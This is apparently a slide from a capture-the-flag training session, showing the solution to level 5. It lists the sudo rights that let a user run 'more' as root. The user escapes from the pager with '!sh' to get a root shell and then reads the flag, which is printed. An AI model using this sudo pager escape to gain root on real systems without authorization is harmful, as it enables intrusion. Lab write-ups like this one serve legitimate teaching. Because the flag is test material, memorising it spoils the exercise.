

CORRECTION / Niveau 5

level5@clusir-ceh-20200212:~$ sudo -l
User level4 may run the following commands on clusir-ceh-20200212:
	(root) NOPASSWD: /usr/bin/free
	(root) NOPASSWD: /usr/bin/clear
	(root) NOPASSWD: /bin/more /home/level5/*
	(root) NOPASSWD: /bin/ls
...

level5@clusir-ceh-20200212:~$ sudo more /root/flag
Sorry, user level5 is not allowed to execute '/bin/more /root/flag' as root on clusir-ceh-20200212.

level5@clusir-ceh-20200212:~$ sudo more /home/level5/.bashrc
> !sh
# whoami
root
# cat /root/flag ${CLUSIRceh2020|x64E2gM9}